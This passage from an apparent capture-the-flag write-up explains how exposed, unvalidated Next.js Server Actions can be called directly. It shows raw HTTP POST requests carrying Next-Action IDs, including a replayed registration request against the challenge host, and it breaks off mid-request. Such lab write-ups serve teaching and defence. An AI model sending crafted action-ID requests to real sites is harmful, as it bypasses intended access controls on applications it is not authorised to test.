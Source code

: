 ```ts
    return new NextResponse(null, { status: 403 });
  }
  response.headers.set("Content-Security-Policy", "script-src 'none';");
  return response;
}

export const config = {
  matcher: "/:path*",
};
```

If there was no such middleware, one could have simply sent the following request to invoke a Server Action with arbitrary parameters (not that it really matters, since we could call the Server Actions using Forms and requests for bounded actions anyway):

```
POST / HTTP/2
Host: www.example.com
Content-Type: text/plain; charset=UTF-8
Next-Action: 5033aa9e8e719350ff01f9a353595d64a7488812
Content-Length: XXX

[1337]
```

Great... So, what does all this mean for us? Essentially, as Next.js have kept on emphasizing throughout its documentation, `"You should basically treat Server Actions as public HTTP endpoints."` This means validation is a must when working with Server Actions, as they're accessible to clients and potentially vulnerable if mishandled. In the case of this challenge application, several unused Server Actions without proper validation were left exposed, making them accessible to all clients.

Now with all that said, much of the findings above were gathered after the CTF to deepen my understanding of how things work in Next.js under the hood.
During the competition how I got the first blood on the challenge, however, my approach was less structured. I mindlessly went havoc on the keyboard, my brains went brrr, and in combination with having a quick skim through the documentations, the flag just appeared...

## Exploitation

Cool, with the knowledge-sharing done! Let's take a look at the exploitation now :)

We start by setting up a local instance, where the registration page is modified by uncommenting the code for the forms in order for us to register a user locally. By replaying the request against the live server using the same Action ID, we could register a user successfully.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 472

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_22848b167831802fadcb34db9cc648e9d77b665f"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="username"

shirajuki
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password1"

asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password2"

```